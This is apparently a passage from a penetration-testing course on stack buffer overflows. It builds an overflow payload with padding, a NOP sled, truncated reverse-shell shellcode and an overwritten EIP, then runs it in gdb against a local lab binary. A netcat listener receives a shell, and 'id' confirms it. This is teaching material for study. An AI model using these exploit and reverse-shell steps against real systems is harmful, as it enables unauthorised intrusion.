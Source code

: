```shell-session
   Buffer = "\x55" * (1040 - 124 - 95 - 4) = 841
     NOPs = "\x90" * 124
Shellcode = "\xda\xca\xba\xe4\x11\xd4...<SNIP>...\x5a\x22\xa2"
      EIP = "\x4c\xd6\xff\xff"
```

Since our shellcode creates a reverse shell, we let `netcat` listen on port 31337.

#### Netcat - Reverse Shell Listener

Netcat - Reverse Shell Listener

```shell-session
student@nix-bow:$ nc -nlvp 31337

Listening on [0.0.0.0] (family 0, port 31337)
```

After starting our `netcat` listener, we now run our adapted exploit again, which then triggers the CPU to connect to our listener.

#### Exploitation

Exploitation

```shell-session
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba...<SNIP>...\x5a\x22\xa2" + "\x4c\xd6\xff\xff"')
```

#### Netcat - Reverse Shell Listener

Netcat - Reverse Shell Listener

```shell-session
Listening on [0.0.0.0] (family 0, port 31337)
Connection from 127.0.0.1 33504 received!

id

uid=1000(student) gid=1000(student) groups=1000(student),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
```

We now see that we got a connection from the local IP address. However, it is not obvious if we have a shell. So we type the command "`id`" to get more information about the user. If we get a return value with information, we know that we are in a shell, as shown in the example.

**Page 11 / Public Exploit Modification**

# Public Exploit Modification

It can happen that during our penetration test, we come across outdated software and find an exploit that exploits an already known vulnerability. These exploits often contain intentional errors in the code. These errors often serve as a security measure because inexperienced beginners cannot directly execute these vulnerabilities to prevent harm to the individuals and organizations that may be affected by this vulnerability.
